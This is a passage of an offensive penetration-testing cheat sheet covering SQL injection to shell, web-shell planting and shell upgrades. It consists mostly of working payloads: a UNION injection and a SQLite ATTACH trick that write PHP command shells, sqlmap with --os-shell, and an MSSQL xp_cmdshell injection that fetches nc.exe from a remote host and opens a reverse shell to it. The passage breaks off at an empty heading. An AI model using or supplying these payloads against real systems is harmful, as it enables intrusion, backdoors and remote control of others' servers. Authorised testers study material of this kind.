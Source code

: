 ```bash
# Assumed 3 columns
http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj
```

```bash
# sqlmap; post-request - captured request via Burp Proxy via Save Item to File.
sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10
```

```bash
# netcat reverse shell via mssql injection when xp_cmdshell is available
1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--
```

### SQLite Injection to Shell or Backdoor <a id="sqlite-injection-to-shell-or-backdoor"></a>

```bash
ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; C
REATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');
```

### MS-SQL Console <a id="ms-sql-console"></a>

```bash
mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password
```

### Upgrading Non-Interactive Shell <a id="upgradig-non-interactive-shell"></a>

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
/bin/busybox sh
```

### Python Input Code Injection <a id="python-input-code-injection"></a>

```bash
__import__('os').system('id')
```

## Local Enumeration & Privilege Escalation <a id="local-enumeration-and-privilege-escalation"></a>

![https://github.com/sagishahar/lpeworkshop](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LSPOrXeQsGUfhvZOKfQ%2F-LSPPIibuw-2XN2-WKC6%2Fprivesc.jpg?alt=media&token=242858cc-b0d1-4d26-a9c5-5b37a398f15c)

### Check if Powershell Logging is Enabled <a id="check-if-powershell-logging-is-enabled"></a>
